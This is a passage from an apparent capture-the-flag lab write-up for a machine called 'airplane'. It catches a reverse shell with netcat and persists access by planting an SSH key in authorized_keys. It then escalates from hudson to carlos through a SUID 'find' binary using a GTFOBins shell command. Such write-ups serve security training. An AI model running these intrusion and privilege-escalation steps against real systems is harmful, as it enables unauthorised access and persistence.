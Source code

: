 Now we setup our listener and run the file.

```terminal
(gdb) set remote exec-file /dev/shm/rev
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program:  
Reading /dev/shm/rev from remote target...
Reading /dev/shm/rev from remote target...
Reading symbols from target:/dev/shm/rev...
(No debugging symbols found in target:/dev/shm/rev)
```

```terminal
[★]$ sudo nc -lvnp 443
[sudo] password for sirius: 
listening on [any] 443 ...
connect to [10.21.94.28] from (UNKNOWN) [10.10.151.120] 55882
id
uid=1001(hudson) gid=1001(hudson) groups=1001(hudson)
```

## **Privilege Escalation**

### hudson -> carlos

Before continuing, I'll add my ssh public key to `hudson`'s authorized keys to get an ssh shell.

```terminal
cd .ssh                                                                                               
echo 'ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABgQDrJW6y2ywVe98xsv7gmb+nEo4/4A8sJ6CYxymKTt9DojualEkttx6zI+GPtAqKNWU0TuETqBgRvYrcUXKrtOLpaPF+Q0v7bY3TWDc0fm7fkQT+PP5j5jDVKT/tF8X8pBqH/DQUXfe6HM4Fn810AowTLdrEfOnglMUnOSBs+
SekCJkO40CvoDJlOp1mZpHeChfkCb/QOavs9midUmVFLHH9vzmTelwvktuCOeVXzFWPDV6gzYB/qrM1a2amA3KNzeOOlr2Z7QC16xEYHuZHPZEY6kCJcWIe2ytClcGl7kYwaGdco41KhWmS8bNBzGDILIyfV3LqSGup6JT0cP6hetdLDzH10T1eQmW5CFbMOBKCpJTUCjPwyW7nDdTP
M9+qch7R3wcvvWaSTcWeE1jN+6fnIXjqDBWUDvV8772qUtZRq3g8OsgSrXcPO5y9wnrPpWTvW9b1Cr+JbZ/zsS5DsHya6tC9SdgoJOwAAjItsq6BXxgw8+VT6tbSTTXcDTHIvAc= sirius@parrot' > authorized_keys
```

Now I ran linpeas and found that `find` has `suid` bit.

```bash
-rwsr-xr-x 1 carlos carlos 313K Şub 18  2020 /usr/bin/find
```

Carlos is the owner of the file so we're getting a shell as carlos using the following command from [GTFOBins](https://gtfobins.github.io/gtfobins/find/#suid)

```bash
find . -exec /bin/sh -p \; -quit
```

```terminal
hudson@airplane:~$ find . -exec /bin/sh -p \; -quit
$ whoami
carlos
```
